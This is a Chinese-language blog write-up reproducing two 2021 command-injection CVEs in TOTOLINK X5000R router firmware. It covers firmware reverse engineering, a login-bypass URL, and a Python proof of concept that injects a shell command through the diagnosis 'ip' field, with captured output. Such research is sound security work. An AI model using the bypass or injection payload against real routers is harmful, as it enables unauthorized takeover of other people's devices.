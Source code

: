 ```yaml
---
layout: article
pageview: true
key: 2022-11-15-X5000R-CVE-review
title: totolink-X5000R CVE复现
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```

本来想复现2022年的几个CVE的，逆向的时候怎么都找不到目标函数地址😤，碰巧发现了三个很有漏洞嫌疑的函数，带着激动的心情调了一晚上😍，发现其中一个没有漏洞😭，另外两个是2021的CVE😒
<!--more-->

### 环境搭建

环境搭建参考了这篇博客[totolink登陆跳过，分析思路](https://bbs.pediy.com/thread-271765.htm)

### 逆向分析

固件是`mipsel`架构的，有符号表，但这只是冰山一角，大部分函数都未被识别，我们通过查找危险函数（`system、popen`）的交叉引用来定位可能有漏洞的函数

同时通过对`libshared.so`的分析，找到了两个会调用`system`的函数：`doSystem`和`getCmdStr`

查找`doSystem`函数的交叉引用，基本都是未识别的函数，需要手动识别一下才能反编译，最后找到了两个漏洞函数，分别对应`CVE-2021-27710`和`CVE-2021-27708`

![CVE-2021-27710](https://s2.loli.net/2022/11/15/JvuhRUOCn13WAfw.png)

![CVE-2021-27708](https://s2.loli.net/2022/11/15/snO92m53djNLwlY.png)

很明显参数直接来源于请求，而且没有任何过滤，可以直接利用

可能是因为函数是我们手动创建的，并没有找到哪里调用了这些函数，不过一般路由器都有测试网络的功能，所以我们只要找到位置抓包就完事了

### 抓包分析

启动环境后，浏览器打开，需要登录

试试密码都不对，还好博客里有绕过登录的方法，直接访问 `formLoginAuth.htm?authCode=1&action=login` 跳过登录进入后台，找到高级功能

![](https://s2.loli.net/2022/11/15/CHOA5ksSm8MyUvL.png)

我们抓包后修改指令，发现可以执行并且有回显

![](https://s2.loli.net/2022/11/15/w87YosImTVFzvuS.png)

另一个CVE只有post内容上的区别，就不赘述了

### 随便写个POC

```python
import requests

base_url="http://localhost/"
ping_url=base_url+"cgi-bin/cstecgi.cgi"
cmd="ls -a;"
request_data='{"topicurl":"setDiagnosisCfg","ip":"-h;%s","num":"4"}' % (cmd)

headers={"accept":"application/json, text/javascript, */*; q=0.01","Content-type":"application/x-www-form-urlencoded; charset=UTF-8"}

response=requests.post(ping_url,data=request_data,headers=headers)
print(response.text)
```
```
.
..
.gdb_history
ExportSettings.sh
cstecgi.cgi
custom.cgi
{
	"success":	true,
	"error":	null,
	"lan_ip":	"",
	"wtime":	"0",
	"reserv":	"reserv"
}


```